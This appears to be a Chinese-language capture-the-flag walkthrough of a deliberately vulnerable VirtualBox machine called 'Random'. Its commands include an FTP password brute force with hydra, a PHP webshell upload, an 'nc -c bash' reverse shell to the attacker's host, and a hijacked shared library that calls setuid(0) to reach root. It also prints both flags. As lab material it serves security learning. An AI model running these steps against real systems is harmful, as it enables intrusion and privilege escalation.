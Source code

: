 # Random

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-10-19

✔️ MD5 // 594d83108b972529c3d03abf5249febc

☠ Root // 34

💀 User // 38

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.112
```

## nmap 信息搜集

```plaintext
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr--    2 1001     33           4096 Oct 19  2020 html
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 09:0e:11:1f:72:0e:6c:10:18:55:1a:73:a5:4b:e5:64 (RSA)
|   256 c0:9f:66:34:56:1d:16:4a:32:ad:25:0c:8b:a0:1b:5a (ECDSA)
|_  256 4c:95:57:f4:38:a3:ce:ae:f0:e2:a6:d9:71:42:07:c5 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

## ftp 匿名登陆

```bash
ftp> ls -lah
229 Entering Extended Passive Mode (|||56972|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Oct 19  2020 .
drwxr-xr-x    3 0        113          4096 Oct 19  2020 ..
drwxr-xr--    2 1001     33           4096 Oct 19  2020 html
```

存在一个 `html` 目录，但是无法进入

## web 服务

```html
<pre>
#########################WARNING##########################
eleanor, i disabled your ssh access.
Take care.
-alan
##########################################################
</pre>
```

由于 SSH 服务被禁用，尝试爆破 ftp

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $hydra -v -V -I -l eleanor -P /usr/share/wordlists/rockyou.txt 192.168.56.112 ftp
[21][ftp] host: 192.168.56.112   login: eleanor   password: ladybug
```

登陆上去之后，成功控制 ftp 服务，但是还是无法上传文件

```bash
ftp> ls -lah
229 Entering Extended Passive Mode (|||10520|)
150 Here comes the directory listing.
drwxr-xr--    2 1001     33           4096 Oct 19  2020 .
drwxr-xr-x    3 0        113          4096 Oct 19  2020 ..
-rw-r--r--    1 33       33            185 Oct 19  2020 index.html
226 Directory send OK.
ftp> put simple-backdoor.php
local: simple-backdoor.php remote: simple-backdoor.php
229 Entering Extended Passive Mode (|||59495|)
550 Permission denied.
```

更换为 sftp，成功上传文件

```bash
sftp> ls -lah
drwxr-xr-x    ? 0        113          4.0K Oct 20  2020 .
drwxr-xr-x    ? 0        113          4.0K Oct 20  2020 ..
drwxr-xr--    ? 1001     33           4.0K Oct 20  2020 html
sftp> cd html
sftp> put simple-backdoor.php
Uploading simple-backdoor.php to /html/simple-backdoor.php
simple-backdoor.php
```

调用 webshell

```plaintext title="http://192.168.56.112/simple-backdoor.php?cmd=whoami"
www-data
```

## User - www-data

```bash
# http://192.168.56.112/simple-backdoor.php?cmd=nc+-c+bash+192.168.56.102+9999
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 9999
[17:45:29] Welcome to pwncat 🐈!
[17:45:53] received connection from 192.168.56.112:56462
[17:45:54] 192.168.56.112:56462: registered new host w/ db
(local) pwncat$ back
(remote) www-data@random:/srv/ftp/html$ whoami
www-data
```

### 环境探测

```plaintext title="ls -lah /home/alan/"
total 56K
drwxr-xr-x 2 alan alan 4.0K Oct 19  2020 .
drwxr-xr-x 4 root root 4.0K Oct 19  2020 ..
-rw------- 1 alan alan   52 Oct 19  2020 .Xauthority
-rw-r--r-- 1 alan alan  220 Oct 19  2020 .bash_logout
-rw-r--r-- 1 alan alan 3.5K Oct 19  2020 .bashrc
-rw-r--r-- 1 alan alan  807 Oct 19  2020 .profile
-rw------- 1 alan alan  162 Oct 19  2020 note.txt
-rwsr-sr-x 1 root root  17K Oct 19  2020 random
-rw-r--r-- 1 root root   19 Oct 19  2020 root.h
-rw-r--r-- 1 root root 1.6K Oct 19  2020 rooter.o
```

发现一个 suid 程序，尝试执行

```bash
(remote) www-data@random:/home/alan$ ./random
Segmentation fault
```

下载下来分析

## `random` 程序逆向分析

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  time_t v3; // rdi
  int v5; // [rsp+1Ch] [rbp-4h]

  v5 = atoi(argv[1]);
  v3 = time(0LL);
  srand(v3);
  if (v5 == rand() % 9 + 1 )
    makemeroot(v3);
  else
    puts("Wrong number");
  return 0;
}
```

那简单，由于 `rand() % 9 + 1` 的限制，直接疯狂运行，总有能对的上的时候

```bash
(remote) www-data@random:/home/alan$ ./random 1
SUCCESS!! But I need to finish and implement this function
```

尝试分析这个程序的链接库

```bash
(remote) www-data@random:/home/alan$ ldd random
        linux-vdso.so.1 (0x00007ffd259e8000)
        librooter.so => /lib/librooter.so (0x00007f23db669000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f23db4a8000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f23db67a000)
```

经过探测，`/lib/librooter.so` 这个链接库可控，于是可以尝试覆盖

```c
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

:::warning

远程靶机环境中的 `ld` 有问题，会出现

```bash
(remote) www-data@random:/tmp$ gcc -shared shell.c -o /lib/librooter.so
shell.c: In function 'makemeroot':
shell.c:5:2: warning: implicit declaration of function 'setuid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
  setuid(0);
  ^~~~~~
  setenv
shell.c:6:2: warning: implicit declaration of function 'setgid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
  setgid(0);
  ^~~~~~
  setenv
collect2: fatal error: cannot find 'ld'
compilation terminated.
```

建议使用本地编译好的结果进行上传

:::

然后继续尝试运行 `random` 程序

```bash
(remote) www-data@random:/home/alan$ ./random 8
root@random:/home/alan# whoami
root
```

:::note

有个问题，这怎么就直接提权到 root 了，这不太科学。。。

:::

## User - root

### flag- user

```bash
root@random:/home/eleanor# cat user.txt
ihavethapowah
```

### flag - root

```bash
root@random:/root# cat root.txt
howiarrivedhere
```
